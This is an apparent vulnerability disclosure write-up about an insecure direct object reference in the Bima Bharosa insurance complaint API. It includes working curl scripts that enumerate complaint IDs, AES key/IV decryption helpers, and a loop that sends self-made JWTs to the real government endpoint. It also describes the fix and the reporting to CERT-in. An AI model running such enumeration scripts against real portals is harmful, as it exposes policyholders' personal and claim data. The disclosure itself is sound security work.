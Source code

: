 ```yaml
---
title: Bimabharosa IRDAI
date:
  created: 2025-08-14
  updated: 2025-08-14
---
```


# BimaBharosa IRDAI Vulnerability 2024

The Bima Bharosa portal (<https://bimabharosa.irdai.gov.in>) had a vulnerability in its complaint history API that allowed access to sensitive complaint details by simply incrementing the complaint ID. This exposed personal and claim information of policyholders without authentication.

Summary of the vulnerability:

| Sr | API | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|-----|--------------|------------|------------|--------------------------|
| 1  | [GetComplainthistorydata](#1-getcomplainthistorydata) | 18 November 2024 | before 30 November 2024 | less than 12 days | 68209424 |
| 2  | [encrypted GetComplainthistorydata](#2-getcomplainthistorydata-encrypted-payload) | 30 November 2024 | 1 January 2025 | 31 days | 68209424 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication

<!-- more -->

### 1. GetComplainthistorydata

The API endpoint `/api/PolicyholderComplaint/GetComplainthistorydata` accepted a POST parameter `complaint_Id` and returned the full complaint history for that ID. No authentication or authorization was required. By incrementing the `complaint_Id`, an attacker could access complaint details of other users, including names, policy numbers, claim details, and remarks from insurers.

```bash title="sample_script.sh" linenums="1"
#!/bin/bash
curl 'https://bimabharosa.irdai.gov.in/api/PolicyholderComplaint/GetComplainthistorydata' -X POST \
 --data-raw 'complaint_Id=4390102'
```

<details>
<summary>Sample response</summary>
```json linenums="1"
---8<--- "docs/vuln/posts/content_bimabharosa/bimabharosa_vuln_1.json"
```
</details>

### $$ Bogus encryption

An encryption was added to API request and response but with the KEY and IV exposed in the front-end code.

```bash title="encr_decr.sh" linenums="1"
#!/bin/bash
# Hex representation of "1234567890000000", exposed in the front-end code.
KEY=3132333435363738393030303030303031323334353637383930303030303030
# Hex representation of "7061737323313233", exposed in the front-end code.
IV=37303631373337333233333133323333

decrypt() {
    echo $(echo -n "$1"| xxd -r -p | openssl enc -aes-256-cbc -d -K "$KEY" -iv "$IV" -nosalt)
}

encrypt() {
    echo $(echo -n "$1" | openssl enc -aes-256-cbc -K "$KEY" -iv "$IV" | xxd -p | tr '[:lower:]' '[:upper:]')
}

for i in "BB2D310BF97F463A42D24E39C1187650" "C5C26E3D620D69E9422744CF50A3D523" "159EF5E147F60C65ECFBF9F9E7B31794"; do
    echo "Input: $i"
    decrypted=$(decrypt "$i")
    echo "Decrypted: $decrypted"
    echo
done

for i in "[]" "null" ""; do
    echo "Input: $i"
    encrypted=$(encrypt "$i")
    echo "Encrypted: $encrypted"
    echo
done
```

### 2. GetComplainthistorydata encrypted payload

This API accepted encrypted payload and provided encrypted response, but still without authorization checks.

Further, any JWT that anyone created was accepted by the API.

The two joined tokens in the header `Authorization` are useless.

```bash title="sample_script_encrypted.sh" linenums="1"
for complaint_id in {4390200..4390249}; do
    input="{\"complaint_Id\":\"$complaint_id\"}"

    payload="$(encrypt "$input")"

    curl -X POST "https://bimabharosa.irdai.gov.in/api/PolicyholderComplaint/GetComplainthistorydata" \
    -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6Ijk5OTk5OTk5OTkiLCJuYmYiOjE3MzI5NjgzNjQsImV4cCI6MTczMjk2ODQyNCwiaWF0IjoxNzMyOTY4MzY0fQ.h8DOqtaQ-aLch-XbiSSzUIIZKmPKq2eVScY20x1yEbQ:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6Ijk5OTk5OTk5OTkiLCJuYmYiOjE3MzI5NjgzNjQsImV4cCI6MTczMjk3MTk2NCwiaWF0IjoxNzMyOTY4MzY0fQ.7ftbp4DhReEyRiXqvfu6E3st1jgqJ_u2EJUr9Rog7os" \
    -H "Cookie: portal-culture=en; $$$$$$$$" \
    --data-urlencode "EncryptUpdateData=$payload" \
    -o "bimabharosa_vuln_2_$complaint_id.json"

    decrypt "$(cat "bimabharosa_vuln_2_$complaint_id.json")" > "bimabharosa_vuln_2_decr_$complaint_id.json"
done
```

### 3. Proper fix

After I provided pseudo-code to CERT-in (and bimabharosa), a proper fix was implemented. In the JWT,
a field was added to list all the complaint IDs. Upon subsequent calls to the APi, only if
the token contained the current ID, the API would return the response.

> Token creation code:
>
> ```
> token.complaint_ids = db.get_all_complaint_ids_of_user(user_id)
> ```
>
> API code:
>
> ```
> if token.complaint_ids.contains(api_payload.complaint_id):
     > return data
> else:
     > return "Unauthorized"
>
> ```
>
> Expired tokens should be rejected!!
>
> Remove the encryption and decryption logic from the payload and response. It is useless. It is security by obscurity which is a bad idea. Data protection can be done without encryption by using JWT tokens properly.
